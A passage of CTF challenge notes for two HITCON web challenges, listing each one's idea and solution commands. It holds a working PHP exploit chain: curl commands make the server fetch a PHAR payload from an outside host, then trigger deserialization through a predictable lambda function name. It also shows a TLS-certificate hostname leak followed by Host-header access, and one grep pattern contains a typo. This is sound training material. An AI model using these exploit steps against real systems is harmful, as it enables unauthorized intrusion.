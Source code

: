 #### Idea

* PHP do the de-serialization on `PHAR` parsing
* PHP assigned a predictable function name `\x00lambda_%d` to an anonymous function  
* Break shared VARIABLE state in Apache Pre-fork mode

#### Source Code

* [index.php](hitcon-ctf-2017/baby^h-master-php-2017/index.php)  

#### Solution

```bash
# get a cookie
$ curl http://host/ --cookie-jar cookie

# download .phar file from http://orange.tw/avatar.gif
$ curl -b cookie 'http://host/?m=upload&url=http://orange.tw/'

# force apache to fork new process
$ python fork.py &

# get flag
$ curl -b cookie "http://host/?m=upload&url=phar:///var/www/data/$MD5_IP/&lucky=%00lambda_1"
```

* [avatar.gif](hitcon-ctf-2017/baby^h-master-php-2017/avatar.gif)  
* [fork.py](hitcon-ctf-2017/baby^h-master-php-2017/fork.py)

#### Write Ups

* [По умолчанию Чтение файлов => unserialize !](https://rdot.org/forum/showthread.php?t=4379)  



## **papapa**
  
Difficulty: **★**  
Solved: **71 / 1024**  
Tag:  **BlackBox**, **SSL**, **Pentesting**  

#### Idea

* Leak the internal hostname from SSL certificate  

#### Source Code

* [here](hitcon-ctf-2016/papapa)  

#### Solution

```bash
$ openssl s_client -showcerts -connect 1.2.3.4:443 < /dev/null | openssl x509 -text | grep -A 1 "Subject Alternativer Name"
...
depth=0 C = TW, ST = Some-State, O = Internet Widgits Pty Ltd, CN = very-secret-area-for-ctf.orange.tw, emailAddress = orange@chroot.org
...
# get flag
$ curl -k  -H "host: very-secret-area-for-ctf.orange.tw" https://1.2.3.4/
```
